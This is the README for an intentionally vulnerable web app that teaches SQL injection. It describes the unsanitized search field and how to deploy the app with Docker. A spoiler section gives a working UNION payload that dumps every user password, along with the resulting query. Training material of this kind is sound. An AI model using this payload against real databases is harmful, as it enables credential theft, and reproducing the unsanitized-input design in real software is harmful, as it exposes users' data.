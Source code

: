 # SQLi Platform

This is a vulnerable WEB application in order to understand SQL injections
basics.

The front end exposes a field allowing the user to search a database
and retrieve names, nicknames, mails... The user's inputs are not
sanitized, allowing an attacker to inject SQL code and leak passwords.

SQL queries are logged on the backend and are also shown on the front,
so that the attacker has a better understanding of what he is doing.

![Screenshot](screenshot.png)


## Deploy

You may run the application under Docker containers:

```
docker-compose up
```

You way edit `docker-compose.yml` in order to tweak the following settings :

- `MYSQL_ROOT_PASSWORD` Databse password
- `SQL_HOST` Database host, from the API point of view
- `SQL_WAIT` API waiting for that time (in seconds) before connecting to the database

The application is then accessible on [http://localhost:8080/](http://localhost:8080/).


## Exploit

<details>
  <summary>Warning ! Contains spoilers !</summary><p>
    Here is an example of a working payload, esposing all passwords in the table:


    ```sql
    nothing%" UNION SELECT pass, nickname, email FROM users#
    ```

    Resulting in the following complete query :


    ```sql
    SELECT id, nickname, email FROM users WHERE nickname LIKE "%nothing%" UNION SELECT pass, nickname, email FROM users#%"
    ```
</p></details>
